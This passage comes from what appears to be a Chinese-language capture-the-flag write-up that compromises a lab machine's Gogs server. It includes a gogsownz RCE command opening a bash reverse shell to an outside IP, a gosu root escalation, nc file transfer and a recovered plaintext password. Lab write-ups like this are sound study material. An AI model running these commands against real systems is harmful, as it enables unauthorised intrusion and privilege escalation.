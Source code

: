 果然有 EXP 可利用...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPMzvcxmE9S4tUS2V8hwP6d1KMD88oyicKTBh0Xk8acZTN0sSQV9eicfGc8YFxvyhKSmGP8Q04DfzpA/640?wx_fmt=png)

下载查看帮助...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPMzvcxmE9S4tUS2V8hwP6dicd9ycnicgibaZbkZZ5dqX6QSYCzNZmzqUzNpQgRJ2BtpYTK6o0B0dQFA/640?wx_fmt=png)

```
python3 gogsownz.py http://127.0.0.1:3000 --creds 'AogiriTest:test@aogiri123' -n i_like_gogits --cleanup -v --rce '/bin/bash -c "bash -i >& /dev/tcp/10.10.14.51/443 0>&1"'
```

这里有太多方法可以提权... 通过下载的 gogsownz，RCE 漏洞利用...

可以克隆也可以覆盖，甚至各种方式提权...

我利用了最简单的... 获得了外壳...

可看到这是 git 权限外壳下...

查询 SUID，发现 gosu 感兴趣...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPMzvcxmE9S4tUS2V8hwP6dh0jfg0ffuYD0wUjFYzmsl7HPWdicuNx3XLiapf7Kibj8kDEflYzva1mYQ/640?wx_fmt=png)

```
gosu root:root /bin/bash
```

查看帮助，发现它以 root 用户的身份执行其他用户的命令，所以以 root 用户的身份执行 bash...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPMzvcxmE9S4tUS2V8hwP6dzoiaqrtgqIZYpHq8cibICDfuVHOX8ANxoP8INTkqGQPrcI1ZaUc8IncQ/640?wx_fmt=png)

还是无法读取 root_flag... 吐了...

发现两个文件... 读取发现了用户名密码...name=kaneki&password=12345ILoveTouka!!!，，无用.... 尝试了...

另外的 7z 文件在此外壳下无法读取和查看...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPMzvcxmE9S4tUS2V8hwP6d2oYv31138OlbtkhVFlNJbwLgECPHZictTMKrLpZD5ZEUvaaBC0gs2tQ/640?wx_fmt=png)

nc 下载到本地...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPMzvcxmE9S4tUS2V8hwP6dDfMMrWRFQ4TtpxVbp5QIEg5gtHs8WDCVagOykbULNLAHMk2qd5ZicTg/640?wx_fmt=png)

通过 7z 解压后，查看到了文本内容... 这是 git 的存储库...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPMzvcxmE9S4tUS2V8hwP6d8BeZmCA9l6kDIWhF58MzH9FOJib9EbvlUQ7I7Y4icuWN7AcibXMwIc7bg/640?wx_fmt=png)

```
git show ORIG_HEAD
```

通过 git 存储卡 google 搜索，如何查找用户名密码... 给了 ORIG_HEAD 提示... 获得了用户名密码...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPMzvcxmE9S4tUS2V8hwP6dicLSH4HVJeROiby1RpRcmLvtmuN4dib8LicllwXWY6kZNlTAbB9WrGov0Q/640?wx_fmt=png)

在 kaneki-pc 服务器上，成功的 su 进入了 root 权限... 查看 flag，说已经快成功了.... 哎... 还是没到终点...
